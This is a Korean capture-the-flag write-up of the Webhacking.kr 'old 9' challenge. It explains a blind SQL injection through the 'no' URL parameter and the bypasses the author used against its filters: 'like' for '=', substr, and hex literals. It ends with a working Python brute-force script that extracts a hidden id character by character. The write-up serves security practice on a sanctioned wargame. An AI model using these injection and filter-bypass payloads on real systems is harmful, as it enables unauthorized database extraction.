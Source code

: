 ```yaml
---
title: "Webhacking challenge(old) 9th Write-Up"
tags: [blindsqli, wargame]
categories: [sqli]
---
```


Webhacking.kr 9 Write-Up
------------------------

## **문제 분석**

이 문제의 경우 많은 걸 배울 수 있던 문제였습니다. 여태까지 해왔던 SQL Injection의 경우 입력 form을 target으로 진행된 반면, 
이번의 경우 정말 blind SQL Injection의 정석이라고 생각될 정도의 문제였습니다.

먼저 문제를 클릭하면 다음과 같은 화면을 먼저 볼 수 있었습니다.

![webhacking_kr_9_main](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_main.png)

password를 제출하는 입력칸과 1, 2, 3 각각 hyperlink를 확인할 수 있었습니다. 먼저 각각의 hyperlink를 눌러서 확인해보면 1번은 Apple, 2번은 Banana가 출력되며 
3번의 경우 문제 해결 조건과 관련있을 법한 내용을 출력하였습니다.

![webhacking_kr_9_3](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_3.png)

사진을 보면 알 수 있듯이 Secret이라고 되어 있으며 id, no 두 개의 column이 있고 no 3의 id가 password라고 되어 있습니다.

가장 먼저 찾을 수 있던 것은 no에 관한 것인데 hyperlink의 숫자가 URL의 GET 인자로 전달해주는 숫자와 일치하는 것을 확인할 수 있었습니다.

>*https://webhacking.kr/challenge/web-09/?no=3*
3을 눌러서 접속하였을 때의 URL

## **풀이 방법 찾기**

이 이후에 제대로 갈피를 잡지 못하고 main page에서 확인할 수 있던 입력 form에서 SQL Injection을 실시하였으나 이는 해결에 접근할 수 없었습니다.

풀이 방법을 찾아본 결과 입력 form이 아닌 no 인자를 전달하는 곳을 통해서 blind SQL Injection을 수행할 수 있었습니다.

풀이 방법을 보고 정말 정석적인 blind SQL Injection이라고 느끼게 된 점이 no 값에 1 ~ 3이 아닌 다른 값이 전달될 경우 제대로 페이지가 로딩 되지 않는 점을 이용하여 Injection을 수행하는 것이었습니다.

또한 필터링 되는 문자가 있을 경우 Access Denied 라는 문구가 출력되었습니다. 이를 위해서는 if문을 사용하였습니다.

- **if문 구조**

if문의 구조는 if(A, B, C)로 A의 결과가 참일 경우 B를, 거짓일 경우 C를 반환합니다. 이 문제의 경우 B에는 3, C에는 1, 2, 3이 아닌 다른 값을 입력하여 참과 거짓을 구분하였습니다.

여기서 비교를 위한 연산자인 =이 필터링 되어 like를 사용하여 값을 비교하였습니다. 또한 쿼리문에 공백이 있을 경우에도 Access Denied가 출력되었는데 이는 공백을 필터링한 것이 아닌 % 문자가 필터링 되기 때문에 공백이 URL Encoding되어 발생되는 것이었습니다.

따라서 다음과 같은 형식으로 해야 필터링을 우회할 수 있었습니다.

```python
?no=if(length(id)like(0),3,0)
```

이 때 페이지의 html code를 살펴보았을 때 form의 max length가 11이었기에 1부터 11까지를 범위로 잡고 진행하였습니다.

* * *

id의 길이는 11글자였으며 최종적으로 문자열을 알아낼 필요가 있었습니다. 자주 사용되는 함수인 substring을 입력하였을 때는 필터링 되었으나 substr로 입력할 경우 필터링 되지 않았기에 사용할 수 있는 것을 확인할 수 있었습니다.

문제는 %가 필터링 되기 때문에 single quotes와 double quotes도 사용할 수 없었기에 이를 우회할 방법이 필요했습니다. 또한 문자열과 관련되서 자주 사용되는 char, ascii, ord 함수도 모두 필터링 되었기 때문에 다른 방법을 사용할 필요가 있었는데 hex 값을 사용할 경우 query가 가능하다는 것을 알 수 있었습니다.

문자열을 추출하는 과정에서 %와 _ 문자도 포함되어 출력되었는데 이를 위해서 해당 문자들의 경우 생략하도록 작성하였습니다. 또한 대/소문자 구분을 하지 않아서 결과적으로 정상적인 결과는 아닌 값을 알 수 있을 정도의 결과물이 출력되었습니다.

작성한 코드는 다음과 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/web-09/"
cookies = {"PHPSESSID":"1sufshmhf7a3l4p5pi8mh8nepq"}
ref = "Secret"
answer = ""

for a in range(1, 11+1):
    params = "?no=if(length(id)like({}),3,0)".format(a)
    requrl = url+params
    response = req.get(requrl, cookies=cookies)
    if ref in response.text:
        print("id length is \"{}\"".format(a))

for i in range(1, 11+1):
    for j in range(33, 126+1):
        if chr(j) == '%' or chr(j) == '_':
            continue
        key = hex(j)
        params = "?no=if(substr(id,{},1)like({}),3,0)".format(i, key)
        requrl = url+params
        response = req.get(requrl, cookies=cookies)
        if ref in response.text:
            answer += chr(j)


print("answer is \"{}\"".format(answer))
``` 
